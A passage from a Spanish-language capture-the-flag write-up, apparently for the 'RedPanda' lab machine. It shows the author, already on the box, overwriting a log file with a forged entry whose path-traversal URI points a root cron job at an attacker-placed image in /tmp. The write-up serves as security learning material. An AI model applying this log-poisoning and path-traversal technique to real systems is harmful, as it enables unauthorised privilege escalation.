 ![Write-up Image](images/Screenshot_11.png)

Aunque debe de ser una petición existosa.
Así que vamos a modificar el log directamente ya que tenemos acceso a la máquina víctima y permisos para poder modificar el archivo `redpanda.log`

```shell
woodenk@redpanda:/opt/panda_search$ echo '200||10.10.14.80||Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0||/../../../../../../tmp/pointed.jpg' > redpanda.log
<|/../../../../../../tmp/pointed.jpg' > redpanda.log
woodenk@redpanda:/opt/panda_search$ cat redpanda.log 
cat redpanda.log 
200||10.10.14.80||Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0||/../../../../../../tmp/pointed.jpg
woodenk@redpanda:/opt/panda_search$
```

Ahora cuando se ejecute la tarea CRON, lo que pasará es que al parsearse el log, la URL valdrá `/../../../../../../../tmp/pointed.jpg`
